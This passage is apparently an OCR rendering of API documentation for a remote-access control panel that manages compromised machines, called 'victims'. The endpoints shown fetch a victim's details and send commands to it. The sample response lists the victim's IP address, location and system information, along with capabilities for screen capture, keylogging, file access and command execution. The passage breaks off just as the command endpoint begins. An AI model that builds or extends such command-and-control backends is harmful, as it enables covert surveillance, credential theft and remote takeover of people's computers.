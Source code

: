 ```json
        },
        "sessions": 3,
        "dataSize": "2.3GB"
      }
    ],
    "total": 1
  }
}
```

---

#### `GET /api/victims/:victimId`
Get victim details.

**Headers:**
```http
Authorization: Bearer <token>
```

**Response:**
```json
{
  "success": true,
  "data": {
    "victim": {
      "id": "victim-001",
      "name": "Target_User_001",
      "ip": "192.168.1.50",
      "location": "Hà Nội, VN",
      "device": "Windows 11 - Chrome",
      "status": "online",
      "systemInfo": {
        "os": "Windows 11",
        "browser": "Chrome 120.0",
        "cpu": "Intel i7-12700K",
        "memory": "16GB",
        "disk": "512GB SSD"
      },
      "capabilities": [
        "screen_capture",
        "keylogging",
        "file_access",
        "command_execution"
      ]
    }
  }
}
```

---

#### `POST /api/victims/:victimId/commands`
Send command to victim.

